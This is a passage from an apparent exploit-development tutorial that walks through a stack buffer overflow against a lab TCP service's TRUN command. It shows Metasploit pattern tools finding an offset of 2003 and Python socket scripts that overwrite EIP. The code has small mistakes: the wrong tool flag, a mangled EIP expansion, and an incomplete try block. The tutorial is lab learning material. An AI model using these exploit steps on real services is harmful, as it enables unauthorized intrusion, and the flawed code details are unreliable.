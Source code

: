 After this script execution, the program crashes, and roughly we know at how many bytes does the program crashed.
>Click "CTRL+C" to See The Bytes


Finding the Offset
==================

Using the above value, we will use the tool “pattern_create.rb“ to generate a pattern for those many bytes.
> msf-pattern_create -l 2100

Copy it And paste it in Python Fil

```
#!/usr/bin/python
import sys, socket

############### finding the offset script ##################
## Generate offset using pattern offset command

offset = "#### HERE ####"

try:

        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('192.168.80.1',9999))
        s.send(('TRUN /.:/' + offset))
        s.close


except:
        print "Error connecting to the server"
        sys.exit()
```
After running this script, the program crashed and we got a new EIP,
so we now need to find that this value (386F4337) is exactly where in our pattern, 
it will indicate offset value. For that, we will be using “pattern_offset.rb”

> msf-pattern_create -l 2100 -q 386F4337
[*] Exact match at offset 2003

So we know we need to have 2003 bytes written and then we will start writing to our EIP (Evil Instruction Pointer).


Overwriting the EIP
===================

To test this value, we can use this script:

```
#!/usr/bin/python
import sys, socket

############### OVERITING THE EIP ##################
## this 2003 is the value we find from previos script for exact address.

shellcode = "A" * 2003 + "B" * 4

try:

        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('192.168.80.1',9999))

        s.send(('TRUN /.:/' + shellcode))
        s.close


```